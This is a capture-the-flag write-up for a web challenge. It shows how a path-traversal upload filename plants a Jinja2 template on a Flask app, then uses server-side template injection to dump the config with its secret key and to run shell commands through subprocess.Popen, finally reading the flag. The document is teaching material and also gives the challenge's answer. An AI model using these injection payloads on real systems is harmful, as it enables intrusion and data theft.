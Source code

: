 # Blame it on the Temp

## Challenge
* Category: Web Security
* Points: 150

We had our intern create this awesome new secure file storage app! http://challenge.acictf.com:44940

### Hints
* https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2
* https://werkzeug.palletsprojects.com/en/0.16.x/utils/#werkzeug.utils.secure_filename


## Solution

### Tools
* Burp Suite




Open a web browser and configure it to use Burp Suite. [Here](https://linuxconfig.org/learn-burp-suite-on-kali-linux-part-1) is a tutorial on setting up Burp Suite with a browser on a Kali machine. Once setup, go to http://challenge.acictf.com:44940 and see what we are working with. Notice there are two form on the page, meaning both of them make `POST` requests to the web application. This will be useful when performing injects later.
  * The `Upload` button where you upload a file is one of the forms
  * The `UPDATE` buttom where you can change the site TEMPLATE is the other form

Reading up on the jinja template injection link above, we know that `{{7*'7'}}` is a good test for injections. So we will start with a index.html that contains `{{7*'7'}}`.

Select our index.html and click uplaod. We then see our INDEX.HTML on the page, and if we open it, it shows us our template above. So our jinja inject did not work... yet.

Lets look at The TEMPLATE dropdown, and it has `Default` and `Non-Default` as options. So this is where knowledge of web-application directory structure comes in handy. Check out these two links
  * Django web app directory structure: https://django-project-skeleton.readthedocs.io/en/latest/structure.html
  * Flask web app directory structure: https://exploreflask.com/en/latest/organizing.html#package

Both of the platforms contain a `templates/` directory in the root directory of the web application. We are going to see if our app here follows the same structure by using directory traversal when uploading(POST) our index.html template. Here is a good resource on `web application directory traversal attack` https://owasp.org/www-community/attacks/Path_Traversal. That may have been a lot to digest, so let me break it down into steps.
  * Upload our index.html that contains a jinja template inject (ie `{{7*'7'}}`)
  * Use Burp Suite to intercep the `POST` and change the filename to include a web application directory traversal attack
  * Check the `TEMPLATES` dropdown on the page for our new template
  * Select our `test#` template and see if the jinja inject worked.


Ok. So upload our index.html again, but this time in Burp Suite modify the filename parameter with

```
filename="../../templates/test1/index.html"
```

Hazzah! We see a new TEMPLATE `test1` is available.

![template](images/template.png)

Go ahead and select it and we see our jinja template injection `{{7*'7'}}` worked!

![test_inject](images/test_inject.png)


Ok. So now lets try some of the other injects on the [github page from Hints](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2) to see if we can grab some configs and gain more information about the web application.

Put `{{config}}` into your index.html file and upload again. You may need to increment your directory names like `test2`

Excellent! We returned a bunch of config information.
```
<Config {'ENV': 'production', 'DEBUG': False, 'TESTING': False, 'PROPAGATE_EXCEPTIONS': None, 'PRESERVE_CONTEXT_ON_EXCEPTION': None, 'SECRET_KEY': 'geYUcdwQr6QDNQQUkEpgIaQJM7HcfSwl', 'PERMANENT_SESSION_LIFETIME': datetime.timedelta(31), 'USE_X_SENDFILE': False, 'SERVER_NAME': None, 'APPLICATION_ROOT': '/', 'SESSION_COOKIE_NAME': 'session', 'SESSION_COOKIE_DOMAIN': False, 'SESSION_COOKIE_PATH': None, 'SESSION_COOKIE_HTTPONLY': True, 'SESSION_COOKIE_SECURE': False, 'SESSION_COOKIE_SAMESITE': None, 'SESSION_REFRESH_EACH_REQUEST': True, 'MAX_CONTENT_LENGTH': None, 'SEND_FILE_MAX_AGE_DEFAULT': datetime.timedelta(0, 43200), 'TRAP_BAD_REQUEST_ERRORS': None, 'TRAP_HTTP_EXCEPTIONS': False, 'EXPLAIN_TEMPLATE_LOADING': False, 'PREFERRED_URL_SCHEME': 'http', 'JSON_AS_ASCII': True, 'JSON_SORT_KEYS': True, 'JSONIFY_PRETTYPRINT_REGULAR': False, 'JSONIFY_MIMETYPE': 'application/json', 'TEMPLATES_AUTO_RELOAD': None, 'MAX_COOKIE_SIZE': 4093, 'ALLOWED_EXTENSIONS': {'html', 'gif', 'pdf', 'png', 'jpg', 'jpeg', 'txt'}, 'APP_NAME': 'Super File Uploader', 'SQLALCHEMY_DATABASE_URI': 'sqlite:////opt/problems/blame-it-on-the-temp_1_cf71d51b80cc24fae6b96115fd06a288/app/app.db', 'SQLALCHEMY_TRACK_MODIFICATIONS': False, 'TEMPLATE': 'Default', 'UPLOAD_FOLDER': '/opt/problems/blame-it-on-the-temp_1_cf71d51b80cc24fae6b96115fd06a288/app/static/uploads/', 'SQLALCHEMY_BINDS': None, 'SQLALCHEMY_NATIVE_UNICODE': None, 'SQLALCHEMY_ECHO': False, 'SQLALCHEMY_RECORD_QUERIES': None, 'SQLALCHEMY_POOL_SIZE': None, 'SQLALCHEMY_POOL_TIMEOUT': None, 'SQLALCHEMY_POOL_RECYCLE': None, 'SQLALCHEMY_MAX_OVERFLOW': None, 'SQLALCHEMY_COMMIT_ON_TEARDOWN': False, 'SQLALCHEMY_ENGINE_OPTIONS': {}}>
```

Since django and flask both run on python, lets try to return a list of python classes to see what we are working with.
So put `{{ [].__class__.__base__.__subclasses__() }}` into your index.html and directory traversal to `test3`

Awesome, the output was a lot of python class information. You can see them in the text document located [here](./classes.txt)

Lets take note of one class in particular `<class 'subprocess.Popen'>`. Reading up on [python subprocess module](https://docs.python.org/3/library/subprocess.html) , you can figure out we can run a bash command using this python class. So our goal now is to run a bash command using our jinja template inject.

So lets give it a try with `ls -alh` to list the contents of the directory this class would run. We will do this by getting the index number of the subprocess.Popen class and this jinja payload. ``{{''.__class__.mro()[1].__subclasses__()[INDEX NUMBER]('ls -alh',shell=True,stdout=-1).communicate()[0].strip()}}``. I already did the work, and my index number is 287.

Lets give this a try and put `{{''.__class__.mro()[1].__subclasses__()[287]('ls -alh',shell=True,stdout=-1).communicate()[0].strip()}}` into our index.html file and directory traversal to `test5`

Cool. so it gave us the following:
```
b'total 100K\ndrwxr-x--- 4 hacksports blame-it-on-the-temp_1 4.0K Apr 23 14:55 .\nd-wx--x--x 702 root root 72K May 6 19:05 ..\ndrwxr-xr-x 4 root root 4.0K Apr 23 14:55 app\ndrwxr-xr-x 3 root root 4.0K Apr 23 14:55 migrations\n-rw-rw-r-- 1 hacksports hacksports 33 Apr 23 14:55 readme.flag\n-rw-rw-r-- 1 hacksports hacksports 19 Apr 23 14:55 server.py\n-rwxr-sr-x 1 hacksports blame-it-on-the-temp_1 105 Apr 23 14:55 xinet_startup.sh'
```

You can see a file in there called `readme.flag`.  Lets call the subprocess again with `cat readme.flag` as the payload.

Go ahead and put `{{''.__class__.mro()[1].__subclasses__()[287]('cat readme.flag',shell=True,stdout=-1).communicate()[0].strip()}}` into your index.html and upload it to `test6` directory.

Boom! theres our flag `b'ACI{ffbb3f2286cad7a4b85ae7250c5}'`


**ACI{ffbb3f2286cad7a4b85ae7250c5}**
